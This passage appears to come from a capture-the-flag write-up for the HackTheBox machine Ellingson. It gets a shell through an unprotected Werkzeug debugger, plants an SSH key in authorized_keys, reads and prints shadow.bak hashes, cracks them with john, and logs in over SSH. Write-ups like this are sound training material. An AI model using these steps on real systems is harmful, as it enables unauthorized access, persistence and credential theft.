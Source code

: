 When trying to request an article with an invalid ID (>3), Python's Werkzeug debugger gets triggered. Normally, opening the shell in the debugger is protected by a pin, but in this case, we can just click on the shell icon in the top right corner to get a shell as user `hal`.

In order to get a real shell on the box, we can add a public SSH key to `hal`'s authorized keys file with the following command:

```python
os.system("echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCY7oCgfGl/FSeSAv9L9iMpTF5FdDrAUBZeKgF4AQUQndvC4Wy5RepsDEsEZ9ZP95HM9zjsR3DOBIEV2Yx1Ib6MxW0NhpSGjV3yRl5gNNRaZx2lzJGogOHYY91vS6pszj0AV41II7FS+tpnKJdVjRUJtlqNa96/xgTtkRdcZUxQnCRH58eP1BdikSW03vu1/SZ0uxMj3uZxcFw64WBukJimJJHDUoD9rruYMjlCZEYwDExvOqgleoXUgclKOzAetrs6Bgihajt1ZsTlxoYT5sRWLv8vwuu+ySHSepy4sza4EmLjTz60DqYtmWxc9+IpkMAhTBUvsESDfI0aR50s2vEB root@htb-box > /home/hal/.ssh/authorized_keys")
```

After a quick enumeration on the box, one can see that `hal` is part of the `adm` group and can therefore read `passwd.bak`:

```bash
hal@ellingson:~$ id
uid=1001(hal) gid=1001(hal) groups=1001(hal),4(adm)
hal@ellingson:~$ ls -al /var/backups/shadow.bak
-rw-r-----  1 root adm      1309 Mar  9 20:42 shadow.bak
hal@ellingson:~$ cat /var/backups/shadow.bak | grep "\\$"
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
```

Cracking the passwords can be speed up with the information we got from the website. After first trying out `love`, `secret`, `sex` and `god` directly which was not working, one can assume that the passwords contain one of those words. I actually wasn't that smart and did it the hard way by bruteforcing with the whole `rockyou.txt` file which takes forever. However, the following steps could have saved a lot of time.

```bash
$ cat /usr/share/wordlists/rockyou.txt | grep "love" > wordlist.txt
$ cat /usr/share/wordlists/rockyou.txt | grep "secret" >> wordlist.txt
$ cat /usr/share/wordlists/rockyou.txt | grep "sex" >> wordlist.txt
$ cat /usr/share/wordlists/rockyou.txt | grep "god" >> wordlist.txt
$ john --wordlist=wordlist.txt shadow.bak
```

Creds: `margo:iamgod$08` (working), `theplague:password123` (not working, would have been missed by the quick bruteforce method)

In order to get the user flag, we can login as `margo` via SSH:

```bash
$ ssh margo@10.10.10.139
margo@10.10.10.139's password:
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

```